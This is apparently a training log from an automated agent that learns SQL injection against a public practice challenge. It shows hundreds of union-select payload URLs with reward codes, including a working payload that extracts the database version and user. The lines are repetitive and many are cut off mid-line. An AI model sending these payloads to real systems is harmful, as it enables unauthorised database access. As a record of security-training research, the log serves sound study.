https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 683/1000000 [3:55:26<6925:43:21, 24.95s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 684/1000000 [3:55:27<4924:45:47, 17.74s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 685/1000000 [3:55:35<4158:30:11, 14.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Sy

  0%|          | 686/1000000 [4:00:20<26616:32:19, 95.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 687/1000000 [4:00:21<18706:18:20, 67.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 688/1000000 [4:00:22<13169:16:43, 47.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 689/1000000 [4:00:22<9292:49:53, 33.48s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 690/1000000 [4:00:23<6579:44:10, 23.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 691/1000000 [4:00:24<4687:25:45, 16.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 692/1000000 [4:00:25<3357:51:22, 12.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'unio

  0%|          | 693/1000000 [4:01:19<6854:57:59, 24.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 694/1000000 [4:01:20<4872:41:24, 17.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 695/1000000 [4:01:22<3560:36:53, 12.83s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 696/1000000 [4:01:23<2568:35:26,  9.25s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 697/1000000 [4:01:24<1872:14:41,  6.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 698/1000000 [4:03:20<11012:11:42, 39.67s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 699/1000000 [4:03:25<8081:43:24, 29.11s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 700/1000000 [4:03:26<5736:48:31, 20.67s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),

  0%|          | 701/1000000 [4:04:17<8305:31:37, 29.92s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 702/1000000 [4:04:18<5889:36:45, 21.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 703/1000000 [4:04:19<4197:06:11, 15.12s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 704/1000000 [4:04:20<3023:22:53, 10.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 705/1000000 [4:04:25<2496:54:05,  9.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 706/1000000 [4:04:26<1830:56:36,  6.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 707/1000000 [4:04:27<1356:35:47,  4.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 708/1000000 [4:04:28<1026:54:29,  3.70s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2-

  0%|          | 709/1000000 [4:05:19<5023:47:42, 18.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 710/1000000 [4:05:20<3598:42:22, 12.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'u

  0%|          | 711/1000000 [4:05:27<3079:02:58, 11.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https:

  0%|          | 712/1000000 [4:05:49<3997:06:00, 14.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 713/1000000 [4:05:50<2879:54:38, 10.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 714/1000000 [4:05:51<2092:03:55,  7.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 715/1000000 [4:05:52<1543:50:44,  5.56s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server

  0%|          | 716/1000000 [4:06:02<1933:19:52,  6.96s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 717/1000000 [4:06:03<1431:54:32,  5.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Se

  0%|          | 718/1000000 [4:06:47<4648:40:14, 16.75s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 719/1000000 [4:06:48<3335:25:57, 12.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 720/1000000 [4:06:49<2409:49:31,  8.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 721/1000000 [4:06:50<1764:11:05,  6.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 722/1000000 [4:06:51<1308:58:18,  4.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3 --
Nothing reponse
Server response is -1
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax

  0%|          | 723/1000000 [4:07:10<2560:28:25,  9.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 724/1000000 [4:07:11<1867:47:35,  6.73s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 725/1000000 [4:07:12<1383:56:24,  4.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 726/1000000 [4:07:13<1045:19:36,  3.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 727/1000000 [4:07:14<807:30:32,  2.91s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version

  0%|          | 728/1000000 [4:07:50<3562:54:35, 12.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org

  0%|          | 729/1000000 [4:08:05<3714:15:23, 13.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 730/1000000 [4:08:06<2674:29:13,  9.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is

  0%|          | 731/1000000 [4:08:52<5728:47:25, 20.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 732/1000000 [4:08:53<4084:46:22, 14.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 733/1000000 [4:08:54<2937:03:16, 10.58s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 734/1000000 [4:08:55<2133:57:53,  7.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 735/1000000 [4:08:56<1575:46:31,  5.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union se

  0%|          | 736/1000000 [4:10:21<8240:57:18, 29.69s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id

  0%|          | 737/1000000 [4:11:44<12680:39:14, 45.68s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc 

  0%|          | 738/1000000 [4:12:18<11671:32:00, 42.05s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 739/1000000 [4:12:19<8245:46:44, 29.71s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 740/1000000 [4:12:20<5846:31:03, 21.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union s

  0%|          | 741/1000000 [4:12:27<4743:51:24, 17.09s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 742/1000000 [4:12:28<3396:04:02, 12.23s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
